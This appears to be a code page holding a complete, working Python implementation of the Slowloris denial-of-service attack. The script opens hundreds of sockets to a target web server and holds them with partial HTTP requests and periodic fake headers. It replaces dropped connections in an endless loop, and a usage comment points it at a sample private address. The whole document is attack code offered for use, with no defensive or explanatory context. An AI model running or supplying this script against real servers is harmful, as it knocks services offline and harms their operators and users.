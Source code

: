 #### Slowloris
```python
#!/usr/bin/env python3
import socket
import threading
import time
import random

class Slowloris:
    def __init__(self, target, port=80, sockets=200):
        self.target = target
        self.port = port
        self.socket_count = sockets
        self.sockets = []
        
    def create_socket(self):
        """Create and return a socket connection"""
        try:
            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            sock.settimeout(4)
            sock.connect((self.target, self.port))
            
            # Send partial HTTP request
            sock.send(f"GET /?{random.randint(0, 2000)} HTTP/1.1\r\n".encode())
            sock.send(f"Host: {self.target}\r\n".encode())
            sock.send("User-Agent: Mozilla/5.0\r\n".encode())
            sock.send("Accept-language: en-US,en\r\n".encode())
            
            return sock
            
        except socket.error:
            return None
    
    def attack(self):
        """Launch Slowloris attack"""
        print(f"Starting Slowloris attack on {self.target}:{self.port}")
        
        # Create initial sockets
        for _ in range(self.socket_count):
            sock = self.create_socket()
            if sock:
                self.sockets.append(sock)
        
        while True:
            print(f"Active sockets: {len(self.sockets)}")
            
            # Send keep-alive headers
            for sock in list(self.sockets):
                try:
                    sock.send(f"X-a: {random.randint(1, 5000)}\r\n".encode())
                except socket.error:
                    self.sockets.remove(sock)
            
            # Replace dead sockets
            while len(self.sockets) < self.socket_count:
                sock = self.create_socket()
                if sock:
                    self.sockets.append(sock)
            
            time.sleep(15)  # Wait before next keep-alive

# Usage
# slowloris = Slowloris("192.168.1.100", 80, 200)
```